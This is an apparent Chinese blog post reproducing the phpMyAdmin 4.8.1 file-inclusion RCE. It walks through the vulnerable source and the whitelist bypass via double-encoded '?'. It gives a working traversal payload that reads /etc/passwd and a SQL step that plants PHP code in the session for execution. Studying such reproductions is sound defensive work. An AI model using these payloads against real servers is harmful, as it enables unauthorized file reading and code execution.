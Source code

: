 date: 2020-02-08
categories:
- cve复现
tags:
- cve复现
title: phpmyadmin 4.8.1 rce
---
# phpmyadmin 4.8.1 rce



## 利用条件

 phpMyAdmin 4.8.0 and 4.8.1 

登陆账号

## 漏洞复现

环境:phpstudy 2018,windows 10

漏洞位置:`index.php`:57

```php
if (! empty($_REQUEST['target'])
    && is_string($_REQUEST['target'])
    && ! preg_match('/^index/', $_REQUEST['target'])
    && ! in_array($_REQUEST['target'], $target_blacklist)
    && Core::checkPageValidity($_REQUEST['target'])
) {
    include $_REQUEST['target'];
    exit;
}
```

非常明显的任意文件包含漏洞

前面几个条件都很好满足,我们看下最后一个`Core::checkPageValidity($_REQUEST['target'])`

跟进去

```php
public static function checkPageValidity(&$page, array $whitelist = [])
    {
        if (empty($whitelist)) {
            $whitelist = self::$goto_whitelist;
        }
        if (! isset($page) || !is_string($page)) {
            return false;
        }

        if (in_array($page, $whitelist)) {
            return true;
        }

        $_page = mb_substr(
            $page,
            0,
            mb_strpos($page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        $_page = urldecode($page);
        $_page = mb_substr(
            $_page,
            0,
            mb_strpos($_page . '?', '?')
        );
        if (in_array($_page, $whitelist)) {
            return true;
        }

        return false;
    }
```

要返回`true`的话,需要`$page`从开头到第一个`?`之间的字符串在白名单中,有以下白名单

```php
array (
  0 => 'db_datadict.php',
....
)
```

因为复现环境是在windows下,windows文件名不能包含`?`,所以`db_datadict.php?`会变为`db_datadict.php`是一个已经存在的文件,我们便无法用`../`来穿梭目录了,但是我们可以看到` $_page = urldecode($page);`

所以我们可以构造`db_datadict.php%253f`来绕过

通用的payload:

`db_datadict.php%253f../../../../../../../../../../../etc/passwd`

可以通过` SELECT '<?=phpinfo()?>'; ` 来写shell到我们的session中

![image1794](https://i.loli.net/2020/02/08/p4l2vM6JOLsTGCd.png)

![image1859](https://i.loli.net/2020/02/08/wUZHdhJx9KSQRG7.png)

## 总结

`db_datadict.php%253f../../../../../../../../../../../etc/passwd`

可以通过` SELECT '<?=phpinfo()?>'; ` 来写shell到我们的session中